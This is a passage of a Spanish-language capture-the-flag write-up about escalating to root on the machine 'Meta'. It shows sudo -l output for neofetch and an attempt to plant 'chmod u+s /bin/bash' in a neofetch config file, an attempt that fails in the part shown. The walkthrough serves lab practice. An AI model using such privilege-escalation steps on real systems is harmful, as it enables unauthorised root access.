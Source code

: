 ## Escalada final(root)

Ahora toca intentar escalar al usuario root.
```
thomas@meta:~$ id
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
``` 
Busco en gtfobins y parece ser vulnerable.

![Neofetch]({{ 'assets/img/writeups/Meta/neofetch.png' | relative_url }}){: .center-image }

Peero intentandolo hacer de esa manera no puedo, en cuanto pongo el --config me pide la contraseña para thomas. Así que probaré a hacer lo mismo pero de otra forma. Entiendo que es --config es para añadir a la configuración del neofetch. Con suerte podremos modificar ese archivo de configuración y añadir el comando manualmente.

La ruta de mi config del neofetch es /home/thomas/.config/neofetch/config.conf.  
Añado la linea de `chmod u+s /usr/bin/bash`
```
# See this wiki page for more info:
# https://github.com/dylanaraps/neofetch/wiki/Customizing-Info
chmod u+s /bin/bash
print_info() {
    info title
    info underline

    info "OS" distro
    info "Host" model
    \\ y sigue...
```
Si al ejecutar el `sudo neofetch`root utiliza mi configuración entonces puede que funcione, en cambio, si root usa su propia configuración que tendrá dentro de su directorio home no funcionará:
```
thomas@meta:~/.config/neofetch$ nano config.conf 
thomas@meta:~/.config/neofetch$ sudo neofetch
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 14 hours, 52 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: AMD EPYC 7302P 16- (2) @ 2.994GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 147MiB / 1994MiB 
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""
thomas@meta:~/.config/neofetch$ ls -l /usr/bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
```
Nada, no ha otorgado el permiso SUID.
